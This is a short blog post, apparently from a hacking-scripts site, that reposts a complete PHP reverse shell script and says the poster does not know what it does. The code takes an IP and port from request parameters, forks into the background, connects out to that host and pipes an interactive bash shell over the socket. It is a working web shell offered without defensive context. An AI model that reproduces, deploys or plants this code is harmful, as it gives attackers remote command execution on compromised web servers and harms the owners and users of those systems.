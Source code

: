 ```yaml
---
id: 86
title: Random Shell Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=86
permalink: /random-shell-script/
categories:
  - PHP
tags:
  - PHP
---
```

A random shell script.. I don&#8217;t know what this one does, or find any information on it. I don&#8217;t even know what it&#8217;s called! Anyway, it is very nicely written and commented.

### Random Shell Script Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
set_time_limit (0);
$VERSION = "1.0";
$ip = $_GET["ip"]; 
$port = $_GET["port"]; 
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = '/bin/bash -p -i';
$daemon = 0;
$debug = 0;
 
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
 
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
 
    if ($pid) {
        exit(0);  // Parent exits
    }
 
    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }
 
    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
 
// Change to a safe directory
chdir("/");
 
// Remove any umask we inherited
umask(0);
 
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}
 
// Spawn shell process
$descriptorspec = array(
   0 =&gt; array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 =&gt; array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 =&gt; array("pipe", "w")   // stderr is a pipe that the child will write to
);
 
$process = proc_open($shell, $descriptorspec, $pipes);
 
if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}
 
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
 
printit("Successfully opened reverse shell to $ip:$port");
 
while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }
 
    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }
 
    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
 
    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }
 
    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }
 
    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}
 
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
 
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
?&gt;
</pre>